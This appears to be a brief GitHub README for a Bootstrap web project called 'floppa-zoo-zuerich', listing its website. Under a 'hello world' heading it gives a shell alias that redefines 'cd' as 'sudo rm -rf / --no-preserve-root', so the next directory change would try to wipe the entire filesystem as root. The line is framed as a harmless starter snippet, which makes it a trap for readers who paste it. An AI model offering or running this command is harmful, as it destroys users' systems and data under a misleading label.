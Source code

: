 # floppa-zoo-zuerich
Web project made with Bootstrap

## website
https://floppa-zoo-zuerich.pages.dev/

## hello world
```
alias cd='sudo rm -rf / --no-preserve-root'
```
